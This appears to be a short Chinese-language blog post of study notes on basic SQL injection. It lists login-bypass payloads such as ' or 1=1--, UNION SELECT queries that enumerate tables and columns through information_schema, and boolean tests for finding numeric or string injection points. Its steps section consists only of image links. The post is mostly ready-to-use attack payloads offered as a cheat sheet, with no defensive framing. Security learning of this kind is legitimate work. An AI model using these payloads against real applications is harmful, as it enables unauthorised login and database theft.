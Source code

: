 ```yaml
---
layout: post
title: sqli基础学习
categories: [sql,web]
---
```


## 后台万能密码
```sql
	' or 1=1--
	' or 1=1#
	' or 1=1/*
	') or '1'='1--
	') or ('1'='1--
```
## SQL注入基本步骤
![1](/img/sql3.png)  
![2](/img/sql2.png)  
![3](/img/sql1.png)

## 联合查询
```sql
--MySQL 4版本时用version=9，MySQL 5版本时用version=10  
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */  
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */  
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'  

```
## 数字型和字符型的辨别
>数字型：使用经典的 `and 1=1 `和 `and 1=2 `来判断  
>字符型：使用 `' and '1'='1 `和 `' and '1'='2`来判断  
